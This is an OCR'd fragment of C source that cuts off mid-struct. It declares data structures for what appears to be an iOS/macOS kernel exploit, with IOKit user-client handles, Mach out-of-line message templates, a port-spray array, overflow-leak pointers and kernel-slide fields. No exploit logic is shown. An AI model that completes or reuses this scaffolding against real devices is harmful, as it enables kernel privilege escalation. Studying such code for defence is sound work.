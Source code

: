     struct vm_map_copy {
        kern_uint_t type;
        kern_uint_t obj;
        kern_uint_t sz;
        kern_uint_t ptr;
        kern_uint_t kfree_size;
    } ;
    
    typedef struct args {
        uint32_t cache_slide;
        uint32_t cache_map;
        mach_port_t mach_task_self;
        mach_port_t mach_host_self;
        mach_port_t master_port;
        io_service_t svc;
        io_service_t pmroot_svc;
        io_iterator_t itr;
        io_connect_t gasgauge;
        io_connect_t gasgauge_;
        io_connect_t rootdomain;
        kern_return_t io_service_open_return;
        int _io_service_get_matching_service;
        int _IOServiceOpen;
        int _IOServiceClose;
        int _IOServiceWaitQuiet;
        int _host_get_io_master;
        int _io_connect_method_scalarI_structureI;
        int copyaddr;
        int readaddr;
        char structData[2048];
        int structSize;
        uint64_t inputScalar[1];
        char initmsg[2048];
        char testmsg[128];
        char gasgauge_match[256];
        char rootdomainuserclient_match[256];
        char a[256];
        char b[256];
        char c[256];
        char msga[256];
        char msgb[256];
        int zero;
        int fd1;
        int fd2;
        int fd3;
        char* oflow_leakedbytes;
        struct vm_map_copy* oflow_vm_map;
        oolmsg_t oolmsg_template;
        oolmsg_t oolmsg_template_2048;
        oolmsg_t oolmsg_template_512;
        oolmsgrcv_t cur_oolmsg;
        oolmsgrcv_t tmp_msg;
        oolmsgrcv_t oflow_msg;
#define overlap_port 955
#define overlapped_port 950
        mach_port_t holder[1000];
        char oolbuf[2048];
        int x;
        int tmp1;
        int tmp2;
        uint64_t kern_alloc_1024;
        uint64_t vptr;
        uint64_t kern_slide;
        uint64_t kern_text_base;